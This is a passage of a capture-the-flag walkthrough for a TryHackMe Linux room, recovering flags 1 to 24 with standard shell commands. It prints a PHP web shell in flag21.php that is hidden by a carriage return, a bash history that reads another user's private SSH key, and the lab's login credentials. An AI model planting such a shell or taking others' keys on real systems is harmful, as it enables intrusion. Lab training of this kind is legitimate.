


# Linux Challenges Room
Link: https://tryhackme.com/room/linuxctf

## Tasks
* [Task 1: Linux Challenges Intro](#task-1-linux-challenges-intro)
* [Task 2: The Basics](#task-2-the-basics)
* [Task 3: Linux Functionality](#task-3-linux-functionality)
* [Task 4: Data Representation, Strings and Permissions](#task-4-data-representation-strings-and-permissions)
* [Task 5: SQL, FTP, Groups and RDP](#task-5-sql-ftp-groups-and-rdp)

## Task 1: Linux Challenges Intro
Explains the purpose of this room, some of the commands and techniques you'll be expected to use, and how to deploy the machine

### Questions
1. Deploy the virtual machine.  
If you want to manually SSH into the machine, use the following credentials:  
Username: garry  
Password: letmein  
How many visible files can you see in garrys home directory?
> 3

> *Author's note: Initially I did `ls -la` which shows 7 files and 1 directory, but you should just use `ls` for this task.*

## Task 2: The Basics
This set of tasks will go over the basic linux commands.

Each question might require you to switch between another user to find the answer!

### Question 1
What is flag 1?

#### Steps
```
garry@ip-10-10-132-59:~$ cat flag1.txt
There are flags hidden around the file system, its your job to find them.

Flag 1: <flag 1 was here>

Log into bobs account to get flag 2.

Username: bob
Password: <bob's password was here>
garry@ip-10-10-132-59:~$
```
#### Answer
> &lt;flag 1 from above&gt;

### Question 2
Log into bob's account using the credentials shown in flag 1.

What is flag 2?

#### Steps
```
garry@ip-10-10-132-59:~$ su - bob
Password:
bob@ip-10-10-132-59:~$ ls
Desktop  Documents  Downloads  flag13  flag21.php  flag2.txt  flag8.tar.gz  Music  Pictures  Public  Templates  Videos
bob@ip-10-10-132-59:~$ cat flag2.txt
Flag 2: <flag 2 was here>
bob@ip-10-10-132-59:~$
```
#### Answer
> &lt;flag 2 from above&gt;

### Question 3
Flag 3 is located where bob's bash history gets stored.

#### Steps
We can use `ls -a` to see what history files are available (ending with *_history*) and then `cat` those we see to find which contains the flag. As the shell is *bash*, it's likely to be *.bash_history*:
```
bob@ip-10-10-132-59:~$ ls -a
.              .cache     Downloads     .gconf         Music           Public            .viminfo     .xsession-errors
..             .config    flag13        .gnupg         .mysql_history  .selected_editor  .vnc
.bash_history  .dbus      flag21.php    .ICEauthority  .nano           .ssh              .Xauthority
.bash_logout   Desktop    flag2.txt     .local         Pictures        Templates         .Xclients
.bashrc        Documents  flag8.tar.gz  .mozilla       .profile        Videos            .xsession
bob@ip-10-10-132-59:~$ cat .bash_history
<flag 3 was here>
cat ~/.bash_history
rm ~/.bash_history
vim ~/.bash_history
exit
ls
crontab -e
ls
cd /home/alice/
ls
cd .ssh
ssh -i .ssh/id_rsa alice@localhost
exit
ls
cd ../alice/
cat .ssh/id_rsa
cat /home/alice/.ssh/id_rsa
exit
cat ~/.bash_history
exit
bob@ip-10-10-132-59:~$
```
#### Answer
> &lt;flag 3 from above&gt;

### Question 4
Flag 4 is located where cron jobs are created.

#### Steps
*cron jobs* are stored in the *crontab*, and we can use the `crontab` command to edit or view them. We can list existing *cron jobs* with `crontab -l`:
```
bob@ip-10-10-132-59:~$ crontab -l
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command

0 6 * * * echo 'flag4:<flag 4 was here>' > /home/bob/flag4.txt
bob@ip-10-10-132-59:~$
```
#### Answer
> &lt;flag 4 from above&gt;

### Question 5
Find and retrieve flag 5.

#### Steps
We can use `find` to locate any file named *flag5.txt*. So we don't have to search through lots of 'Permission denied' errors, we can send error output (stream number 2) to */dev/null*, which is equivalent to sending it nowhere (it just disappears).
```
bob@ip-10-10-132-59:~$ find / -name flag5.txt 2>/dev/null
/lib/terminfo/E/flag5.txt
bob@ip-10-10-132-59:~$ cat /lib/terminfo/E/flag5.txt
<flag 5 was here>
bob@ip-10-10-132-59:~$
```
#### Answer
> &lt;flag 5 from above&gt;

### Question 6
"Grep" through flag 6 and find the flag. The first 2 characters of the flag is c9.

#### Steps
First we need to use `find` to locate *flag6.txt*, then we can use `grep` to locate the flag within the file.
<pre>
bob@ip-10-10-132-59:~$ find / -name flag6.txt 2>/dev/null
/home/flag6.txt
bob@ip-10-10-132-59:~$ grep c9 ../flag6.txt
Sed sollicitudin eros quis vulputate rutrum. Curabitur mauris elit, elementum quis sapien sed, ullamcorper pellentesque neque. Aliquam erat volutpat. Cras vehicula mauris vel lectus hendrerit, sed malesuada ipsum consectetur. Donec in enim id erat condimentum vestibulum <b>&lt;flag 6 was here&gt;</b> vitae eget nisi. Suspendisse eget commodo libero. Mauris eget gravida quam, a interdum orci. Vestibulum ante ipsum primis in faucibus orci luctus et ultrices posuere cubilia Curae; Quisque eu nisi non ligula tempor efficitur. Etiam eleifend, odio vel bibendum mattis, purus metus consectetur turpis, eu dignissim elit nunc at tortor. Mauris sapien enim, elementum faucibus magna at, rutrum venenatis ipsum.
bob@ip-10-10-132-59:~$
</pre>
#### Answer
> &lt;flag 6 from above&gt;

### Question 7
Look at the systems processes. What is flag 7.

#### Steps
We can look at our own processes using `ps` to see if it's in a process we own, or everybody's processes with `ps -ef`.
```
bob@ip-10-10-132-59:~$ ps
  PID TTY          TIME CMD
 2494 pts/1    00:00:00 bash
 2602 pts/1    00:00:00 ps
bob@ip-10-10-132-59:~$ ps -ef
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 22:23 ?        00:00:03 /sbin/init
root         2     0  0 22:23 ?        00:00:00 [kthreadd]
root         3     2  0 22:23 ?        00:00:00 [ksoftirqd/0]
root         5     2  0 22:23 ?        00:00:00 [kworker/0:0H]
...
root      1344     1  0 22:23 ?        00:00:00 /snap/amazon-ssm-agent/1068/amazon-ssm-agent
root      1357     1  0 22:23 ?        00:00:00 /usr/lib/policykit-1/polkitd --no-debug
mysql     1370     1  0 22:23 ?        00:00:01 /usr/sbin/mysqld
root      1390     1  0 22:23 ?        00:00:00 flag7:<flag 7 was here> 1000000
whoopsie  1391     1  0 22:23 ?        00:00:00 /usr/bin/whoopsie -f
root      1399     1  0 22:23 ?        00:00:00 /usr/sbin/sshd -D
root      1411     1  0 22:23 ?        00:00:00 /sbin/iscsid
root      1412     1  0 22:23 ?        00:00:00 /sbin/iscsid
...
bob       2603  2494  0 23:12 pts/1    00:00:00 ps -ef
bob@ip-10-10-132-59:~$
```
#### Answer
> &lt;flag 7 was one of the process commands&gt;

### Question 8
De-compress and get flag 8.

#### Steps
Flag 8 is in *bob*'s home directory, as *flag8.tar.gz*. To get the contents we can use the `tar` command to decompress. The flag `-z` will unzip the *.gz* part, the flag `-x` will expand the *.tar* part, and the `-f` allows us to specify the file name to decompress.
```
bob@ip-10-10-132-59:~$ ls
Desktop    Downloads  flag21.php  flag5_find.txt  Music     Public     Videos
Documents  flag13     flag2.txt   flag8.tar.gz    Pictures  Templates
bob@ip-10-10-132-59:~$ tar -xzf flag8.tar.gz
bob@ip-10-10-132-59:~$ ls
Desktop    Downloads  flag21.php  flag5_find.txt  flag8.txt  Pictures  Templates
Documents  flag13     flag2.txt   flag8.tar.gz    Music      Public    Videos
bob@ip-10-10-132-59:~$ cat flag8.txt
<flag 8 was here>
bob@ip-10-10-132-59:~$
```
#### Answer
> &lt;flag 8 from above&gt;

### Question 9
By look in your hosts file, locate and retrieve flag 9.

#### Steps
```
bob@ip-10-10-132-59:~$ cat /etc/hosts
127.0.0.1 localhost

# The following lines are desirable for IPv6 capable hosts
::1 ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
ff02::3 ip6-allhosts

127.0.0.1       <flag 9 was here>.com
bob@ip-10-10-132-59:~$
```
#### Answer
> &lt;flag 9 from above&gt;

### Question 10
Find all other users on the system. What is flag 10.

#### Steps
The best way to look at all the users on a Linux system is to look in the */etc/passwd* file.
<pre>
bob@ip-10-10-132-59:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash
bob:x:1001:1001:Bob,,,:/home/bob:/bin/bash
<b>&lt;flag 10 was here&gt;</b>:x:1002:1002:,,,:/home/&lt;flag 10 was here&gt;:/bin/bash
alice:x:1003:1003:,,,:/home/alice:/bin/bash
mysql:x:112:117:MySQL Server,,,:/nonexistent:/bin/false
xrdp:x:113:118::/var/run/xrdp:/bin/false
whoopsie:x:114:120::/nonexistent:/bin/false
avahi:x:115:121:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
avahi-autoipd:x:116:122:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
colord:x:117:125:colord colour management daemon,,,:/var/lib/colord:/bin/false
geoclue:x:118:126::/var/lib/geoclue:/bin/false
speech-dispatcher:x:119:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:120:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:121:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:122:127:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:123:129:RealtimeKit,,,:/proc:/bin/false
saned:x:124:130::/var/lib/saned:/bin/false
usbmux:x:125:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
gdm:x:126:131:Gnome Display Manager:/var/lib/gdm3:/bin/false
garry:x:1004:1006:,,,:/home/garry:/bin/bash
bob@ip-10-10-132-59:~$
</pre>
#### Answer
> &lt;flag 10 was a username&gt;

## Task 3: Linux Functionality
Now we have used the basic Linux commands to find the first 10 flags, we will move onto using more functions that Linux has to offer.

### Question 1
Run the command flag11. Locate where your command alias are stored and get flag 11.

#### Steps
We should run the `flag11` command and see what it does. Aliases in *bash* are usually created in the *~/.bashrc* file.
```
bob@ip-10-10-197-121:~$ flag11
You need to look where the alias are created...
bob@ip-10-10-197-121:~$ cat ~/.bashrc
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples

<--snipped here-->

# some more ls aliases
alias ll='ls -alF'
alias la='ls -A'
alias l='ls -CF'

# Add an "alert" alias for long running commands.  Use like so:
#   sleep 10; alert
alias alert='notify-send --urgency=low -i "$([ $? = 0 ] && echo terminal || echo error)" "$(history|tail -n1|sed -e '\''s/^\s*[0-9]\+\s*//;s/[;&|]\s*alert$//'\'')"'

#custom alias
alias flag11='echo "You need to look where the alias are created..."' #<flag 11 was here>
...
# Alias definitions.
# You may want to put all your additions into a separate file like
# ~/.bash_aliases, instead of adding them here directly.
# See /usr/share/doc/bash-doc/examples in the bash-doc package.

if [ -f ~/.bash_aliases ]; then
    . ~/.bash_aliases
fi

# enable programmable completion features (you don't need to enable
# this, if it's already enabled in /etc/bash.bashrc and /etc/profile
# sources /etc/bash.bashrc).
if ! shopt -oq posix; then
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi
bob@ip-10-10-197-121:~$
```
The flag was in the comment for the *flag11* alias.
#### Answer
> &lt;flag 11 from above&gt;

### Question 2
Flag12 is located were MOTD's are usually found on an Ubuntu OS. What is flag12?

#### Steps
On Ubuntu, the Message of The Day (MOTD) is stored in */etc/update-motd.d/*, though it can sometimes be in */etc/motd* if there is a custom directory. These directories often store a set of files that go together to make the final message. We can `grep` these files for the word *flag*. Let's see what we have on the system:
```
ob@ip-10-10-197-121:~$ ls /etc/update-motd.d/
00-header     51-cloudguest         91-release-upgrade  98-fsck-at-reboot   99-esm
10-help-text  90-updates-available  97-overlayroot      98-reboot-required  logo.txt
bob@ip-10-10-197-121:~$ grep -i flag /etc/update-motd.d/*
/etc/update-motd.d/00-header:# Flag12: <flag 12 was here>
bob@ip-10-10-197-121:~$
```
#### Answer
> &lt;flag 12 from above&gt;

### Question 3
Find the difference between two script files to find flag 13.

#### Steps
There is a directory in the home directory that probably contains the script files we need to find the difference between. We can use `diff` to show the differences between two files.
```
bob@ip-10-10-197-121:~$ ls
Desktop  Documents  Downloads  flag13  flag21.php  flag2.txt  flag8.tar.gz  Music  Pictures  Public  Templates  Videos
bob@ip-10-10-197-121:~$ cd flag13/
bob@ip-10-10-197-121:~/flag13$ ls
script1  script2
bob@ip-10-10-197-121:~/flag13$ diff script1 script2
2437c2437
< Lightoller sees Smith walking stiffly toward him and quickly goes to him. He yells into the Captain's ear, through cupped hands, over the roar of the steam...
---
> Lightoller sees <flag 13 was here> Smith walking stiffly toward him and quickly goes to him. He yells into the Captain's ear, through cupped hands, over the roar of the steam...
bob@ip-10-10-197-121:~/flag13$
```

#### Answer
> &lt;flag 13 from above&gt;

### Question 4
Where on the file system are logs typically stored? Find flag 14.

#### Steps
Logs on linux are stored in */var/log/*. Let's look in there and see if we can find the flag.
```
bob@ip-10-10-197-121:~/flag13$ ls /var/log/
alternatives.log    auth.log.2.gz          dpkg.log          hp             speech-dispatcher    wtmp.1
alternatives.log.1  btmp                   dpkg.log.1        kern.log       syslog               Xorg.0.log
amazon              btmp.1                 flagtourteen.txt  kern.log.1     syslog.1             Xorg.0.log.old
apache2             cloud-init.log         fontconfig.log    kern.log.2.gz  syslog.2.gz          xrdp-sesman.log
apt                 cloud-init-output.log  fsck              lastlog        syslog.3.gz
auth.log            cups                   gdm3              lxd            unattended-upgrades
auth.log.1          dist-upgrade           gpu-manager.log   mysql          wtmp
bob@ip-10-10-197-121:~/flag13$ cat /var/log/flagtourteen.txt
<-- snipped here -->
Boy desirous families prepared gay reserved add ecstatic say. Replied joy age visitor nothing cottage. Mrs door paid led loud sure easy read. Hastily at perhaps as neither or ye fertile tedious visitor. Use fine bed none call busy dull when. Quiet ought match my right by table means. Principles up do in me favourable affronting. Twenty mother denied effect we to do on.

Situation admitting promotion at or to perceived be. Mr acuteness we as estimable enjoyment up. An held late as felt know. Learn do allow solid to grave. Middleton suspicion age her attention. Chiefly several bed its wishing. Is so moments on chamber pressed to. Doubtful yet way properly answered humanity its desirous. Minuter believe service arrived civilly add all. Acuteness allowance an at eagerness favourite in extensive exquisite ye.

May indulgence difficulty ham can put especially. Bringing remember for supplied her why was confined. Middleton principle did she procuring extensive believing add. Weather adapted prepare oh is calling. These wrong of he which there smile to my front. He fruit oh enjoy it of whose table. Cultivated occasional old her unpleasing unpleasant. At as do be against pasture covered viewing started. Enjoyed me settled mr respect no spirits civilly.

Affronting everything discretion men now own did. Still round match we to. Frankness pronounce daughters remainder extensive has but. Happiness cordially one determine concluded fat. Plenty season beyond by hardly giving of. Consulted or acuteness dejection an smallness if. Outward general passage another as it. Very his are come man walk one next. Delighted prevailed supported too not remainder perpetual who furnished. Nay affronting bed projection compliment instrument.

<flag 14 was here>
bob@ip-10-10-197-121:~/flag13$
```
#### Answer
> &lt;flag 14 from above&gt;

### Question 5
Can you find information about the system, such as the kernel version etc.

Find flag 15.

#### Steps
First we can try `uname -r` which displays the kernel version. Other information is usually given with `uname -a`.
```
bob@ip-10-10-197-121:~$ uname -r
4.4.0-1075-aws
bob@ip-10-10-197-121:~$ uname -a
Linux ip-10-10-197-121 4.4.0-1075-aws #85-Ubuntu SMP Thu Jan 17 17:15:12 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
bob@ip-10-10-197-121:~$
```
Neither of these gave us anything that looked like a flag.

Maybe we need to look at the files in */proc* which is where this information is usually stored.
```
bob@ip-10-10-197-121:~$ grep -iI flag /proc/* 2>/dev/null
/proc/cpuinfo:flags             : fpu vme de pse tsc msr pae mce cx8 apic sep mtrr pge mca cmov pat pse36 clflush mmx fxsr sse sse2 ht syscall nx rdtscp lm constant_tsc rep_good nopl xtopology pni pclmulqdq ssse3 fma cx16 pcid sse4_1 sse4_2 x2apic movbe popcnt tsc_deadline_timer aes xsave avx f16c rdrand hypervisor lahf_lm abm invpcid_single kaiser fsgsbase bmi1 avx2 smep bmi2 erms invpcid xsaveopt
/proc/kallsyms:0000000000000000 A xen_mc_irq_flags
/proc/kallsyms:0000000000000000 A nop_txn_flags
/proc/kallsyms:0000000000000000 T perf_misc_flags
/proc/kallsyms:0000000000000000 t __uncore_set_flag_sel_show
<-- snipped here -->
/proc/kallsyms:0000000000000000 t btrfs_ioctl_subvol_setflags   [btrfs]
/proc/kallsyms:0000000000000000 t btrfs_update_iflags   [btrfs]
/proc/kallsyms:0000000000000000 t btrfs_inherit_iflags  [btrfs]
/proc/kallsyms:0000000000000000 t reada_tree_block_flagged      [btrfs]
/proc/kallsyms:0000000000000000 t btrfs_set_disk_extent_flags   [btrfs]
bob@ip-10-10-197-121:~$
```
This gave lots of lines with *flag* in them, but none is what we want.

Another couple of places to look are */etc/os-release* and */etc/lsb-release* which have similar information to the previous locations.
```
bob@ip-10-10-197-121:~$ cat /etc/os-release
NAME="Ubuntu"
VERSION="16.04.5 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.5 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
bob@ip-10-10-197-121:~$ cat /etc/lsb-release
FLAG_15=<flag 15 was here>
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.5 LTS"
bob@ip-10-10-197-121:~$
```
Found it!

#### Answer
> &lt;flag 15 from above&gt;

### Question 6
Flag 16 lies within another system mount.

#### Steps
In Linux, other mounts are ususally found at */mnt* or */media*. Let's take a look.
```
bob@ip-10-10-197-121:~$ ls /mnt/
bob@ip-10-10-197-121:~$ ls /media/
f
bob@ip-10-10-197-121:~$ ls /media/f
l
bob@ip-10-10-197-121:~$ ls /media/f/l
a
bob@ip-10-10-197-121:~$ ls /media/f/l/a
g
bob@ip-10-10-197-121:~$ ls /media/f/l/a/g
1
bob@ip-10-10-197-121:~$ ls /media/f/l/a/g/1
6
bob@ip-10-10-197-121:~$ ls /media/f/l/a/g/1/6
is
bob@ip-10-10-197-121:~$ ls /media/f/l/a/g/1/6/is
<flag 16 was here>
bob@ip-10-10-197-121:~$
```
#### Answer
> &lt;flag 16 from above&gt;

### Question 7
Login to alice's account and get flag 17. Her password is TryHackMe123

#### Steps
```
bob@ip-10-10-197-121:~$ su - alice
Password:
alice@ip-10-10-197-121:~$ ls
flag17  flag19  flag20  flag22  flag23  flag32.mp3
alice@ip-10-10-197-121:~$ cat flag17
<flag 17 was here>
alice@ip-10-10-197-121:~$
```

#### Answer
> &lt;flag 17 from above&gt;

### Question 8
Find the hidden flag 18.

#### Steps
Hidden files on Linux usually start with a dot (`.`). `ls` on its own doesn't show these files, but by passing the `-a` flag, the hidden files are shown. `-la` (or `-al`) is a common flag set to pass to `ls` which shows file details plus hidden files. One we find a hidden flag 18 file, we can use `cat` to take a look.
```
alice@ip-10-10-197-121:~$ ls -la
total 172
drwxr-xr-x 4 alice alice  4096 Feb 20  2019 .
drwxr-xr-x 6 root  root   4096 Feb 20  2019 ..
-rw------- 1 alice alice   518 Mar  7  2019 .bash_history
-rw-r--r-- 1 alice alice   220 Feb 18  2019 .bash_logout
-rw-r--r-- 1 alice alice  3771 Feb 18  2019 .bashrc
drwx------ 2 alice alice  4096 Feb 18  2019 .cache
-rw-rw-r-- 1 alice alice    33 Feb 18  2019 flag17
-rw-rw-r-- 1 alice alice    33 Feb 18  2019 .flag18
-rw-rw-r-- 1 alice alice 99001 Feb 19  2019 flag19
-rw-rw-r-- 1 alice alice    45 Feb 19  2019 flag20
-rw-rw-r-- 1 alice alice    96 Feb 19  2019 flag22
-rw-rw-r-- 1 alice alice    33 Feb 19  2019 flag23
-rw-rw-r-- 1 alice alice 10560 Feb 19  2019 flag32.mp3
-rw------- 1 alice alice    32 Feb 19  2019 .lesshst
-rw-r--r-- 1 alice alice   655 Feb 18  2019 .profile
drw-r--r-- 2 alice alice  4096 Mar  7  2019 .ssh
-rw------- 1 alice alice  3075 Feb 19  2019 .viminfo
alice@ip-10-10-197-121:~$ cat .flag18
<flag 18 was here>
alice@ip-10-10-197-121:~$
```
#### Answer
> &lt;flag 18 from above&gt;

### Question 19
Read the 2345th line of the file that contains flag 19.

#### Steps
We can use the `sed` [Stream EDitor](https://en.wikipedia.org/wiki/Sed) command with the `-n` flag to suppress the output of every line not matching the pattern, with `'2345p'` being used to match and output the specified line number(s).
```
alice@ip-10-10-197-121:~$ sed -n '2345p' flag19
<flag 19 was here>
alice@ip-10-10-197-121:~$
```
#### Answer
> &lt;flag 19 from above&gt;

## Task 4: Data Representation, Strings and Permissions
This set of tasks will require you to understand how certain data is represented on a Linux system. This section may require you to do some independent research.

> *Author's note: I started Task 4 by using `ls` in each of our known users' home directories so I could see where most of the flags were*

### Question 1
Find and retrieve flag 20.

#### Steps
An `ls` of */home/alice* shows the file *flag20*. Let's have a look at it.
```
alice@ip-10-10-214-98:~$ ls
flag17  flag19  flag20  flag22  flag23  flag32.mp3
alice@ip-10-10-214-98:~$ cat flag20
MDJiOWFhYjhhMjk5NzBkYjA4ZWM3N2FlNDI1ZjZlNjg=
alice@ip-10-10-214-98:~$
```
Flags have previously been hexadecimal numbers, so the contents of *flag20* doesn't look like our flag. However, when I see and `=` at the end of a string of alphanumeric characters, it suggests that the string is [base64](https://en.wikipedia.org/wiki/Base64) encoded (the `=` character is used for padding in *base64* strings). We can decode it in Linux with the `base64` command, using the `-d` flag.
```
alice@ip-10-10-214-98:~$ base64 -d flag20 ; echo
<flag20 was here>
alice@ip-10-10-214-98:~$
```
#### Answer
> &lt;flag 20 from above&gt;

### Question 2
Inspect the flag21.php file. Find the flag.

#### Steps
The *flag21.php* file is found in */home/bob*.
```
alice@ip-10-10-214-98:~$ ls /home/bob/
Desktop  Documents  Downloads  flag13  flag21.php  flag2.txt  flag8.tar.gz  Music  Pictures  Public  Templates  Videos
alice@ip-10-10-214-98:~$ cat /home/bob/flag21.php
<?='MoreToThisFileThanYouThink';?>
alice@ip-10-10-214-98:~$
```
There must be some text hidden in this file that a simple `cat` can't see. We'll take a look in a text editor.
```
alice@ip-10-10-214-98:~$ vim /home/bob/flag21.php
<?=`$_POST[flag21_<flag 21 was here>]`?>^M<?='MoreToThisFileThanYouThink';?>
~
~   
```
When we look at it in `vim` (other text editors may show this, too - I haven't tested them), we can see that there is a `^M` character in the text. This is a carriage return, and moves the cursor back to the beginning of the line. This means that the part of the line after the `^M` overwrites the first part of the line before the `^M` on the console, hiding it when we use `cat`.

The flag was in the first part of the line.
#### Answer
> &lt;flag 21 from above&gt;

### Question 3
Locate and read flag 22. Its represented as hex.

#### Steps
Flag 22 is in *alice*'s home directory.
```
alice@ip-10-10-8-228:~$ ls
flag17  flag19  flag20  flag22  flag23  flag32.mp3
alice@ip-10-10-8-228:~$ cat flag22
39 64 31 61 65 38 64 35 36 39 63 38 33 65 30 33 64 38 61 38 66 36 31 35 36 38 61 30 66 61 37 64
alice@ip-10-10-8-228:~$
```
The question says that this is [hex](https://en.wikipedia.org/wiki/Hexadecimal) (often represented with a leading `0x`, though not here), and we notice that the values seem to fall within the [ASCII](https://en.wikipedia.org/wiki/ASCII) range for the numbers *0* to *9* (`0x30` to `0x39`) and the letters *a* to *f* (`0x61` to `0x66`). We can test this easily by taking the line from the file, converting it in a column by replacing spaces with newlines (`\n`) using `tr`, and sorting them with `sort`. We can also use `uniq` to take duplicates out of the list to make it easier to scan
```
alice@ip-10-10-8-228:~$ cat flag22 | tr -s ' ' '\n' | sort | uniq
30
31
33
35
36
37
38
39
61
63
64
65
66
alice@ip-10-10-8-228:~$
```
> *Author's note: The above command line isn't necessary to solve this - we could just read the numbers in the file, but I always like to find an easy way to check things!

We can see that what we guessed was true above is. So now we can take these numbers, turn them into their ASCII character representation, and, hopefully, this will be our flag.

To convert hex to ASCII, we could just use an online [ASCII table](http://www.asciitable.com/) and convert each character by hand to get the flag. However, Linux provides a command ([`xxd`](https://linux.die.net/man/1/xxd)) that converts between hex values and their binary representation. By default, `xxd` converts a binary file to its hex value, but by using the `-r` flag, we can reverse that operation.

We can write a bash command line, using a [`for` loop](https://www.cyberciti.biz/faq/bash-for-loop/) to pass each hex number from the file to `xxd` and convert it. We need to add the `0x` hex representation marker to the front of each number for `xxd`.
```
alice@ip-10-10-8-228:~$ for i in $(cat flag22); do echo 0x$i | xxd -r ; done ; echo
<flag22 was here>
alice@ip-10-10-8-228:~$
```
#### Answer
> &lt;flag 22 from above&gt;

### Question 4
Locate, read and reverse flag 23.

#### Steps
Flag 23 is in *alice*'s home directory.
```
alice@ip-10-10-8-228:~$ ls
flag17  flag19  flag20  flag22  flag23  flag32.mp3
alice@ip-10-10-8-228:~$ cat flag23
5ffb258330b8437a090c4f66507925ae
alice@ip-10-10-8-228:~$
```
We need to reverse this to get the flag. Linux has a command `rev` which does just this - reverses the string passed to it.
```
alice@ip-10-10-8-228:~$ cat flag23 | rev
<flag 23 was here>
alice@ip-10-10-8-228:~$
```
#### Answer
> &lt;flag 23 from above&gt;

### Question 5
Analyse the flag 24 compiled C program. Find a command that might reveal human readable strings when looking in the source code.

#### Steps
Flag 24 is in *garry*'s home directory. The *alice* user can run it, though, so no need to change users yet.
```
alice@ip-10-10-171-5:~$ ls ../garry/
flag1.txt  flag24  flag29
alice@ip-10-10-171-5:~$ ../garry/flag24
Nothing to see here!!alice@ip-10-10-171-5:~$
alice@ip-10-10-171-5:~$
```
Linux has a command `strings` that can show you all the ASCII strings in a binary. We can run strings over the `flag24` executable and `grep` for teh word *flag*.
```
alice@ip-10-10-171-5:~$ strings ../garry/flag24 | grep -i flag
flag24.c
flag_24_is_<flag 24 was here>
alice@ip-10-10-171-5:~$
```
#### Answer
> &lt;flag 24 from above&gt;

### Question 6
Flag 25 does not exist.

There's nothing to do here. Just click the *Completed* button.

### Question 7
Find flag 26 by searching the all files for a string that begins with 4bceb and is 32 characters long. 

#### Steps
